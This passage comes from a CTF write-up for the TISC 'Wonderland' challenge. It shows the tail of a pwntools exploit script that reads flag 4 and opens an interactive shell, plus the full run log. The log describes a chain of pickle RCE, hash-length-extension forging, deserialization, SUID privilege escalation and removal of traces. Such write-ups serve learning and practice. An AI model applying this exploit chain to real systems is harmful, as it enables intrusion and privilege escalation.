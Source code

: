 Finally, the flag is retrieved and an interactive shell is dropped.

```python
    # Get the flag.
    log.info('Reading the flag at /home/hatter/flag4')
    log.success('Flag 4:')
    c.sendline('cat /home/hatter/flag4')
    c.sendline('echo END_OF_FLAG')
    log.success(c.recvuntil(b'END_OF_FLAG').replace(b'END_OF_FLAG', b''))

    # Drop into an interactive shell.
    log.success('Enjoy your shell!')
    c.interactive()
```

Running the exploit:

```shell
root@42c70e7d708e:/opt/wonderland# ./4_a_mad_tea_party.py
[+] Opening connection to 172.17.0.1 on port 31337: Done
[┘] Initialising connection. This will take a moment...
[*] Moving to the a-shallow-deadend to get the pocket-watch...
[*] Disabling text scroll.
[*] Moving to a-curious-hall to drink the pink-bottle...
[*] Moving to a-fancy-pavillion to eat the fluffy-cake...
[*] Moving to a-mystical-cove to get the looking-glass...
[*] Teleporting to under-a-giant-mushroom to get the golden-hookah...
[*] Teleporting to /opt/wonderland/logs
[*] Generating pickle RCE payload...
[*] Writing payload to baf21465-9949-4f06-88bb-1848435f13f4.item
[*] Triggering RCE...
[*] Constructing pool-of-tears exploit URL.
[*] Sending curl request to trigger the creation of the SUID binary.
[*] Triggering the SUID binary to escalate to the mouse user.
[*] Removing the SUID binary to clean up the tracks.
[*] Reading the invitation code...
[+] Got invitation code: 031c6d75-63d4-43ea-b40c-07ae9dbdc879
[*] Successfully entered the party.
[*] Successfully set a new name to ensure a large enough input size.
[*] Looking for a suitable cake export...
[*] Caption Length: 0
[*] Cake: CoABQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUEQ6fQBIgdWYW5pbGxh
[*] Digest: 54915cffbff7b2ce16779ef24fd80270ae8584919a232fede1dea9366259db17177c4095910825b0e4452ffaebd9495ffa74cb0d4ffe4b27548b9f72a70dc264
[*] Generating FST Deserialization payload to create a hatter SUID binary.
[*] Constructing the protobuf field from scratch.
[*] Forging the new cake and digest with the malicious fireworks field.
./4_a_mad_tea_party.py:317: DeprecationWarning: PY_SSIZE_T_CLEAN will be required for '#' formats
  forged_digest, forged_data = hashpumpy.hashpump(cake_struct['digest'], cake_base64,
[+] New Cake JSON forged successfully!
[*] Sending the forged JSON.
[*] Triggering the deserialization to create the hatter SUID binary...
[|] Waiting a moment to return back to the shell context...
[*] Triggering the SUID binary to escalate to the hatter user.
[*] Removing the SUID binary to clean up the tracks.
[*] Reading the flag at /home/hatter/flag4
[+] Flag 4:
[+] TISC{W3_y4wN_A_Mor3_r0m4N_w4y}
[+] Enjoy your shell!
[*] Switching to interactive mode

$ id
uid=1000(rabbit) gid=1000(rabbit) euid=1002(hatter) egid=1002(hatter) groups=1002(hatter)
```